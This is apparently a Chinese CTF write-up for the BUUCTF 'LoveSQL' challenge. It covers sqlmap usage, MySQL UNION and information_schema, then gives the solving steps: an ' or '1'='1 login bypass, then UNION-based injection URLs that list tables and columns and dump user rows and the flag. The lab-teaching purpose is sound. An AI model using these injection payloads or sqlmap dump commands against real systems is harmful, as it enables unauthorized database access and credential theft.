









# [[极客大挑战 2019]LoveSQL](http://0a42be52-4487-46d3-bdb8-fc46c541cec3.node3.buuoj.cn)
## 相关sql知识
### sqlmap
* 一个好用的sql注入工具
* 常用命令
```sql
# 检查注⼊点： 
sqlmap -u http://host/check.php?username=admin&password=123 
# 爆所有数据库信息： 
sqlmap -u http://host/check.php?username=admin&password=123 \ --dbs 
# 爆当前数据库信息： 
sqlmap -u http://host/check.php?username=admin&password=123 \ --current-db 
# 指定库名表名列出所有字段，test为数据库名 admin为表名 
sqlmap -u http://host/check.php?username=admin&password=123 \ -D test -T admin --columns 
# 指定库名表名字段dump出指定字段 id 和 password 
sqlmap -u http://host/check.php?username=admin&password=123 \ -D test -T admin -C id，password --dump
```
### mysql union
* UNION 语句：用于将不同表中相同列中查询的数据展示出来；（不包括重复数据）
* UNION ALL 语句：用于将不同表中相同列中查询的数据展示出来；（包括重复数据）
* 使用形式如下：
```sql
SELECT 列名称 FROM 表名称 UNION SELECT 列名称 FROM 表名称 ORDER BY 列名称；
SELECT 列名称 FROM 表名称 UNION ALL SELECT 列名称 FROM 表名称 ORDER BY 列名称； 
```
### mysql中的information_schema
* 在MySQL中，把 information_schema 看作是一个数据库，确切说是信息数据库。其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权 限等。
#### information_schema数据库表说明
* SCHEMATA表：提供了当前mysql实例中所有数据库的信息。是show databases的结果取之此表。
* TABLES表：提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息。是show tables from schemaname的结果取之此表。
* COLUMNS表：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname.tablename的结果取之此表。
* STATISTICS表：提供了关于表索引的信息。是show index from schemaname.tablename的结果取之此表。
* USER_PRIVILEGES（用户权限）表：给出了关于全程权限的信息。该信息源自mysql.user授权表。是非标准表。
* SCHEMA_PRIVILEGES（方案权限）表：给出了关于方案（数据库）权限的信息。该信息来自mysql.db授权表。是非标准表。
* TABLE_PRIVILEGES（表权限）表：给出了关于表权限的信息。该信息源自mysql.tables_priv授权表。是非标准表。
* COLUMN_PRIVILEGES（列权限）表：给出了关于列权限的信息。该信息源自mysql.columns_priv授权表。是非标准表。
* CHARACTER_SETS（字符集）表：提供了mysql实例可用字符集的信息。是SHOW CHARACTER SET结果集取之此表。
* COLLATIONS表：提供了关于各字符集的对照信息。
* COLLATION_CHARACTER_SET_APPLICABILITY表：指明了可用于校对的字符集。这些列等效于SHOW COLLATION的前两个显示字段。
* TABLE_CONSTRAINTS表：描述了存在约束的表。以及表的约束类型。
* KEY_COLUMN_USAGE表：描述了具有约束的键列。
* ROUTINES表：提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。名为“mysql.proc name”的列指明了对应于INFORMATION_SCHEMA.ROUTINES表的mysql.proc表列。
* VIEWS表：给出了关于数据库中的视图的信息。需要有show views权限，否则无法查看视图信息。
* TRIGGERS表：提供了关于触发程序的信息。必须有super权限才能查看该表
## writeup
1. 用`' or '1' = '1`可以获得`admin`的密码`aff33d4dcfa762927be3327c45314554`，这个密码并不是要获得的flag                         
                         
2. 在此时，观察网址有漏洞，,此时的网址为`/check.php?username=admin&password=%27+or+%271%27+%3D+%271`                                  
                      
3. 获得回显点                        
改为`/check.php?username=1' union select 1,2,3%23&password=1`就相当于
`sql="SELECT * FROM users WHERE name='1' union select 1,2,3# and pass='1'"`
                      
                      
得到回显点是第三列（或者说是第三个空）
4. 查询有哪些表                       
改为`/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23 &password=1`相当于
```sql
sql=
SELECT * 
FROM users 
WHERE name='1' 
union 
select group_concat(table_name)  # group_concat函数把相同的行连接起来
from information_schema.tables 
where table_schema=database()
# and pass='1'
```
                      
5. 查询geekuser有哪些字段`/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='geekuser'%23&password=1`相当于
```sql
sql=
SELECT * 
FROM users 
WHERE name='1' 
union 
select group_concat(column_name) 
from information_schema.columns 
where table_schema=database() 
and table_name='geekuser'
# and pass='1'
```
                      
6. 查询l0ve1ysq1有哪些字段`/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1`相当于
```sql
sql=
SELECT * 
FROM users 
WHERE name='1' 
union 
select group_concat(column_name) 
from information_schema.columns 
where table_schema=database() 
and table_name='l0ve1ysq1'
# and pass='1'
```
                      
7. 查询geekuser表数据`/check.php?username=1' union select 1,2,group_concat(id,username, password) from geekuser%23&password=1`                      
                      
8. 查询l0ve1ysq1表数据`/check.php?username=1' union select 1,2,group_concat(id,username, password) from l0ve1ysq1%23&password=1`                      
                      
发现由于页面放置的问题，这一段文字其实并不是完整的，将其复制下来后，发现最后由`{}`括起来的一段非常像flag，最后提交上去，成功                        
```
1cl4ywo_tai_nan_le,2glzjinglzjin_wants_a_girlfriend,3Z4cHAr7zCrbiao_ge_dddd_hm,40xC4m3llinux_chuang_shi_ren,5Ayraina_rua_rain,6Akkoyan_shi_fu_de_mao_bo_he,7fouc5cl4y,8fouc5di_2_kuai_fu_ji,9fouc5di_3_kuai_fu_ji,10fouc5di_4_kuai_fu_ji,11fouc5di_5_kuai_fu_ji,12fouc5di_6_kuai_fu_ji,13fouc5di_7_kuai_fu_ji,14fouc5di_8_kuai_fu_ji,15leixiaoSyc_san_da_hacker,16flagflag{0448247b-c99d-4c44-a741-3c9e8d793b70}
```
9. 获得flag
`flag{0448247b-c99d-4c44-a741-3c9e8d793b70}`

                      
                      
                      
                      
                      
                      
                      
                      
                      
                      
                      

